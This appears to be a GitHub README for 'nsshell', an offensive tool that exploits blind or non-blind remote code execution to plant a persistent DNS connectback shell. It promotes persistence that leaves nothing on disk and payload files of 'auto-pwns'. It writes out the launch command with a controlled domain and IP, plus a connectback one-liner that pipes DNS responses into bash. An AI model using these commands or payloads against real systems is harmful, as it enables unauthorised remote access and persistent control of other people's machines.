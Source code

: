 <img src="https://github.com/TheRook/nsshell/blob/master/icon.png?raw=true" width="64">

Think sqlmap meets xsshunter - but looking for (blind/nonblind) RCE to get a DNS connectback shell. 

- persistent shell (even if you exit nsshell.py)
- doesn't touch disk
- resumes access when you restart nsshell.py
- nothing to install or compile for the target
- the target can use their own trusted DNS resolver - or automatically upgrade to a direct connection for speed

Start:
The tool needs to know which domain it has control over:
sudo ./nsshell.py hack.com 123.123.123.112
...
wrote connectback payloads to:payloads.txt

The file above contains a list of auto-pwns. Run one of the payloads and a persistent shell will be loaded over DNS.

That's all folks!

## install
sudo make install && echo $(which nsshell) && nsshell localhost 127.0.0.1

spawn a connectback:
nslookup 1 localhost | bash
